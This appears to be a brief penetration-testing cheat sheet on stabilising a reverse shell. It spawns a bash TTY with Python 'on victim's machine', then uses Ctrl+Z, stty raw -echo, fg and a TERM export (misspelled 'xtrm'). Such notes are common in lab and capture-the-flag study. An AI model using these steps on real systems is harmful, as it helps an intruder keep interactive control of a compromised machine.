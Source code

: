 # Stabilising-rev-shells

''
python -c "import pty; pty.spawn('/bin/bash')"      //run on victim's machine
''


CTRL + Z                                            //switches over to your machine
stty raw -echo                                      //run on your machine
fg                                                  //switches back to victim machine
export TERM=xtrm                                    //run on victim machine
